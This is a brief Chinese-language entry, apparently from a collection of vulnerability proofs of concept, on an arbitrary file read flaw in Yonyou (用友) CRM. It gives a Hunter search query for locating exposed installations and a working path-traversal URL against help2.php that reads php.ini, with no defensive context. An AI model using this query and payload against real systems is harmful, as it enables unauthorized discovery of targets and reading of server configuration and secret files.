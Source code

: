 ## 用友CRM 任意文件读取漏洞

## hunter
```
app.name="用友 CRM"
```

## poc
```
http://127.0.0.1:9000/pub/help2.php?key=../../apache/php.ini
```
![image](../../images/419deef4-d49f-4fe2-aa80-0c6b93174f58.png)
